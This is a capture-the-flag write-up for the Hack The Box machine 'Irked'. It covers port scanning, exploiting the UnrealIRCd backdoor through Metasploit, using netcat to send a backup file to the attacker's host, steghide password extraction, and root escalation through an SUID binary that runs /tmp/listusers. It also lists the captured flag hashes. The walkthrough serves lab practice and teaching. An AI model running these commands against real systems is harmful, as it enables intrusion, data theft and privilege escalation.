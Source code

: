 # Irked

## User

### Scan
Like usual, start by scanning with `nmap -sC -sV 10.10.10.117`:
```
Nmap scan report for 10.10.10.117
Host is up (0.17s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          41418/tcp  status
|_  100024  1          60262/udp  status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.96 seconds
```
Let's check each service one-by-one and see what we find. Webservers are usually a good place to start. Searching the Apache version 2.4.10 shows us that this webserver is severely outdated with many CVEs. I messed around with some metasploit modules that scan for the optionsbleed vulnerability with no luck. Viewing the webserver might give us more of a clue.

![Webserver](images/web.png "Img") 

This is interesting because IRC did not show up in our initial scan. Scanning again over all the ports may reveal more services. Doing a full scan of all ports takes a long time, so to mitigate this we will use a program called `masscan` that is included in Kali by default. Once we know which ports are open we can do a more in-depth scan of those ports with `nmap`.
```
masscan -p1-65535,U:1-65535 10.10.10.117 --rate=1000 -e tun0 > nmap/masscan.out
```

Just for fun, let's use another method of scanning that will produce a readable webpage using the stylesheet parameter of `nmap`. I got a stylesheet from [here](https://github.com/honze-net/nmap-bootstrap-xsl), you can find it in the Auxiliary directory of this repo. Now let's see what the scan turns up with the new ports.
```
nmap -sC -sV -oA irked --style nmap-bootstrap.xsl -p8067,6697,65534,111,22,33262 10.10.10.117
firefox irked.xml
```
![Scan](images/scan.png "Img")

### Exploit IRC
Now we can see that irc is running and that it's using UnrealIRCd. A quick search for UnrealIRCd exploits reveals a backdoor command execution exploit that we can deploy with Metasploit.

The steps to getting a shell on the system using this exploit are as follows:
1. Start metasploit with `msfconsole`
2. Select the exploit with `use exploit/unix/irc/unreal_ircd_3281_backdoor`
3. Show requirements for this exploit with `show options`
4. Set options:
    * Set target host: `set RHOSTS 10.10.10.117`
    * Set IRC port: `set RPORT 6697`
5. Run exploit with `exploit`

### Privilege Escalation
Now we have a shell! Look around and see what files are available to us. To get `user.txt`, do a search for the file with `find / -name "user.txt"`. In this case the file is at `/home/djmardov/Documents/user.txt`. Unfortunately, our user cannot read this file. However, there is another interesting file in this directory that we can read: `.backup`.

We can use `netcat` to exfil this file since we don't have SSH. Start a listener on your machine with `nc -l -p 8080 > backup`. On the remote side, run `nc -w 3 [hostname] 8080 < .backup`.
```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

This took me longer than it should have to figure out. Steg usually refers to hiding data in files that are in plain sight. The only steg-like item we have encountered so far is the `irked.jpg` image seen on the website. The second line of this file is the passphrase to extract the user password from the image. Pull the file using `wget 10.10.10.117/irked.jpg`. 

`steghide` is the most commonly used tool for this sort of thing, so I figured it would be a good place to start. Running `steghide extract -sf irked.jpg` and entering the passphrase gives us the user password! Now we can SSH into the box and get `user.txt`:
```
4a66a78b12dc0e661a59d3f5c0267a8e
```

## Root

### Enumeration
As far as I can tell, privilege escalation at this point requires lots of enumeration. I followed [this checklist](https://www.rebootuser.com/?p=1623) to start looking for abnormalities. 

After trying lots of different things, I noticed that there were many discrepancies between the SUID files on my system and the ones on this box. The command to find SUID files is `find / -perm -4000 -type f 2>/dev/null`. 

I ran that command on both machines and researched/tested the ones that were different. The one that jumped out to me was `viewuser` because of its strange output. 

![viewuser](images/viewuser.png "Img")

We can try creating a file called `/tmp/listusers` and see what happens. I tried a few different things like putting `root` or `djmardov` in there but I got a permission denied error. Then I tried including bash commands to see if the program would run them and it did! Simply placing `su` in the `/tmp/listusers` file elevates us to a root shell and the box is ours. 
```
8d8e9e8be64654b6dccc3bff4522daf3
```
